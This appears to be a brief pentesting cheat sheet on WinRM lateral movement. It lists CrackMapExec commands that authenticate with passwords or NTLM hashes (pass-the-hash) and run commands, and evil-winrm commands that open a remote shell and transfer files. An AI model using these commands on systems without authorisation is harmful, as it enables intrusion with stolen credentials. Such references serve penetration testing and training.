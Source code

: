 ### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H nthash
cme winrm ip -u username -H nthash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename

```
